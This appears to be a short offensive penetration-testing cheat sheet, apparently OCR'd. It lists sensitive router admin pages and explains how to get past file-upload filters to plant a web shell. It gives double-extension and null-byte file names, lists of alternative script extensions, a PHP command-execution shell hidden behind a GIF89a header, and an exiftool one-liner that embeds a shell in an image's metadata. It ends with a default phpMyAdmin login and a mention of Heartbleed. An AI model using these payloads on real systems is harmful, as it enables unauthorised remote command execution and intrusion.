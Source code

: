     - /rpFWUpload.html (Tools

    - /DiagGeneral.html (Diagnostic)

    - /RemMagSNMP.html (SNMP Passwords)

    - /LAN_ClientList.html (Current DHCP Leases)

    - /RestoreCfg.html

    - /BackupCfg.html

### Upload page

- Upload shell to make reverse shell

- Bypass file upload filtering

- Rename it

    - `shell.php.jpg`

- Blacklisting bypass, change extension

    - php .phtml, .php, .php3, .php4, .php5, and .inc

    - bypassed by uploading an unpopular php extensions such as: pht, phpt, phtml, php3, php4, php5, php6

    - asp .asp, .aspx

    - perl .pl, .pm, .cgi, .lib

    - jsp .jsp, .jspx, .jsw, .jsv, and .jspf

    - Coldfusion .cfm, .cfml, .cfc, .dbm

- Whitelisting bypass

    - `file.php%00.png`

    - `shell.jpg.php`

    - If they check the content. Basically you just add the text "GIF89a;" before you shell-code. `<? system($_GET['cmd']);//or you can insert your complete shellcode ?>`

    - In image

        - `exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg`

        - `mv lo.jpg lo.php.jpg`

### Phpmyadmin

- Default login `root:pma`

### Identify WAF using `wafw00f`

### Exploitation

- Heartbleed exploit
